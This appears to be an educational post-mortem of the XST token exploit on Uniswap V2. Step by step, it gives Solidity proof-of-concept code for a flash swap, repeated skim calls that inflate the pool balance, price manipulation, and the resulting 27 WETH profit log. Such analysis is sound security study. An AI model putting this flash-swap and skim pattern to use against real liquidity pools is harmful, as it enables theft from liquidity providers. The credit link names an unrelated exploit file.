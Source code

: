 # XST

## What's XST?
XST is the platform's native cryptocurrency. Using XST, transaction validators acquire their rights to process transactions. These rights are tokenized as NFTs, movable assets known as StealthNodes, each of which is assigned a slot in a block validation schedule.

## Amount stolen
27.13 WETH


## Vulnerability
Skimming logic

## Analysis

The XST token on Uniswap was exploited through a combination of swapping, skimming, and manipulating the liquidity pool. The attacker initiated a flash swap, performed skimming operations to claim tokens, and manipulated prices by selling tokens back to the pool. This led to a significant profit in WETH for the attacker.

# Proof of concept (PoC) 

We check the balance of WETH within the XST pool on Uniswap and initiate a swap for twice that amount. This action triggers a callback, invoking our custom `uniswapV2Call` function.

```solidity
        amount = WETH.balanceOf(address(Pair2));
        Pair1.swap(amount * 2, 0, address(this), " ");
```


In our `uniswapV2Call` we proceed by getting the current reserves of the XST/WETH pair on Uniswap

![XTS Image](../images/XTS/label.drawio.png)



```solidity
uint256 amountSellWETH = WETH.balanceOf(address(this));
(uint256 reserve0, uint256 reserve1,) = Pair2.getReserves(); 
```

![XTS Image](../images/XTS/before.drawio.png)




### Calculate swap

To execute a swap on Uniswap, we adhere to the Uniswap formula, inserting the required parameters for swaps.
With the following parameters:

![XTS Image](../images/XTS/para1.drawio.png)

![XTS Image](../images/XTS/formula.drawio.png)
```solidity
  uint256 amountOutXST = amountSellWETH * 997 * reserve0 / (reserve1 * 1000 + amountSellWETH * 997);
```

Finally, swap the WETH tokens for XST tokens in the liquidity pool of Uniswap XST

```solidity
  WETH.transfer(address(Pair2), amountSellWETH);
  Pair2.swap(amountOutXST, 0, address(this), "");
```


### Skimming

The skim function in Uniswap V2 is used to claim accumulated tokens from a liquidity pool without removing liquidity. 
It's often used to retrieve additional tokens accumulated due to various operations, such as swaps.
   

```solidity
     XST.transfer(address(Pair2), XST.balanceOf(address(this)) / 8);   //(1/8th) of the XST balance held by the contract to the Uniswap pair, adding more liquidity to the pool.
        for (int256 i = 0; i < 15; i++) {
            Pair2.skim(address(Pair2));
        }

     Pair2.skim(address(this));
```


After skimming the tokens we sell the XST tokens to the WETH liquitiy pool, which allows us to manipulate the price within this flash swap.


```solidity
   XST.transfer(address(Pair2), XST.balanceOf(address(this)));
```

![XTS Image](../images/XTS/liq.drawio.png)

Now we repeat the first steps with new values:

### Calculate swap

![XTS Image](../images/XTS/para2.drawio.png)



![XTS Image](../images/XTS/after.drawio.png)


```solidity
   uint256 amountOutWETH = amountSellXST * 997 * reserve1 / (reserve0 * 1000 + amountSellXST * 997);
```


### Swap for profit

```solidity
   Pair2.swap(0, amountOutWETH, address(this), "");
```


### Repay flashloan

```solidity
   WETH.transfer(address(Pair1), (amount * 2) * 1000 / 997 + 1000);
```




### Profit

Since we initiated the flash swap with 78 WETH, and at the end of the flash swap had 105 WETH, we were able to send the profit back to our wallet


![XTS Image](../images/XTS/profit.drawio.png)



```
  Attacker WETH profit before exploit: 0.000000000000000000
  Attacker WETH profit after exploit: 27.130181656842120567
```


## Conclusion

Because the XST tokens balance in the pool was increasing, while the reserves stayed the same, it caused the second swap to be manipulated in a way that led to extreme profits for the attacker.



**Code provided by:** [DeFiHackLabs](https://github.com/SunWeb3Sec/DeFiHackLabs/blob/main/src/test/88mph_exp.sol)


[**< Back**](https://patronasxdxd.github.io/CTFS/)
